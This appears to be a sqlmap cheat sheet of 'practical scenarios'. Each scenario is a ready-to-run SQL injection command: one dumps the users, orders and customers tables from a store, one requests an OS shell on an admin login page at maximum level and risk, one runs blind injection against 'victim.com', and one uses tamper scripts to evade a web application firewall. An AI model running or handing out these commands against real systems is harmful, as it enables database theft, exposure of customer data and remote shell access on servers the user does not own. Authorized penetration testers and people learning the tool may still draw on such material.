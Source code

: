 ## Practical Scenarios

### Scenario 1: E-commerce Site
```bash
sqlmap -u "https://store.com/product.php?id=1" \
  --batch \
  --crawl=2 \
  --forms \
  --dbs \
  -D store_db \
  -T users,products,orders,customers \
  --dump \
  --dump-format=CSV
```

### Scenario 2: Admin Panel
```bash
sqlmap -u "https://admin.site.com/login.php" \
  --data="username=admin&password=test" \
  --level=5 \
  --risk=3 \
  --dbs \
  --os-shell \
  --batch
```

### Scenario 3: Blind SQL Injection
```bash
sqlmap -u "http://victim.com/search.php?q=test" \
  --technique=B \
  --batch \
  --threads=3 \
  --delay=2 \
  --dbs \
  --no-cast
```

### Scenario 4: POST Request with Cookies
```bash
sqlmap -u "http://site.com/search" \
  --data="query=test&category=1" \
  --cookie="session=abc123" \
  --batch \
  --dbs \
  --tamper=space2comment
```

## Advanced Features

### Tamper Scripts for WAF Bypass
```bash
# Use tamper scripts to evade WAF
sqlmap -u "http://example.com/vuln.php?id=1" \
  --tamper=space2comment,charencode,charunicodeescape \
  --batch \
  --dbs
```
